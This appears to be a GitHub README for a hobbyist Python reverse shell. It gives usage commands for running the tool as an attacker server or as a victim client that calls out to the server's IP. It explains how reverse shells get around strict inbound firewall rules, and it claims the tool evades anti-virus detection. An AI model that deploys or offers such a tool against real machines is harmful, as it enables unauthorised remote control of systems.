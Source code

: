 

# Sample Demo:
![Alt Text](https://github.com/heecheon92/Reverse_shell/blob/master/rshell_demo.png)

# How to Use?

You can run this program either as a server (attacker) or client (victim)

To run as a server:
'''
  python3 rshell.py -m server -p port_number
'''  
To run as a client:
'''
  python3 rshell.py -m client -t server_ip_address -p server_port_number
'''
# A Very Long Disclaimer: 

I am not responsible for any real / potential damage by the use of this project

I am not a professional penetration tester.

However, I do find network/socket programming very attractive and based on what I learned from

network class in college and socket programming I picked up from somewhere, I have made this little sneaky programs.

Just because I like to understand about penetration testing, it does not mean I would like to relentlessly abuse well known tools or frameworks (such as metasploit....veil....sqlmap.....hashcat.....etc). Instead, I wanted to try making my own script and see what I can do. I am not saying those penetration tools are bad. In fact, I get amazed how well they are automated to attack mutliple victim nodes. I just do not want to solely rely on them.

Server program opens up an accessible port.

Once the server program is running, client program can be executed to connect to the hosted port by the server.

Unlike normal shells or also known as "bind shell", in which server simply allow an user to connect and client program with a payload to attack the server node, the server program acts as a payload and allows the server to execute shell commands to a client.

In most network environment, it is a common practice that in-bound policy is set to be strict to prevent malicous actions to be done and typically, out-bound policy is set to be loose so that users within the network can freely traverse the endpoints outside of the firewall.

Due to this environment, exploitation by bind shell is not really easily acheiveable.

However, since the attcker is the server so that the out-bound policy can be set relatively loose or no out-bound policy at all, implementing reverse shell is very effective to control a remote node.

All communication between the server and the client is not secure and can be easily detected by network monitoring tools like Wireshark. I am planning to add a security layer.



Bind Shell:

Server (Victim) ---------|Firewall|<<---------Client (Attacker)

It is easy to fail to make connection if an out-bound policy of firewall is well set.

Reverse Shell:

Server (Attacker) -------NO-FIREWALL <<------------Client (Victim)

Attacker set no out-bound policy so that victims can freely connect to the trap server.

Again, even though this is a very simple program, it won't be detected by an anti-virus software as a threat.

So, DO NOT USE TO HARM OTHER ENDPOINTS.



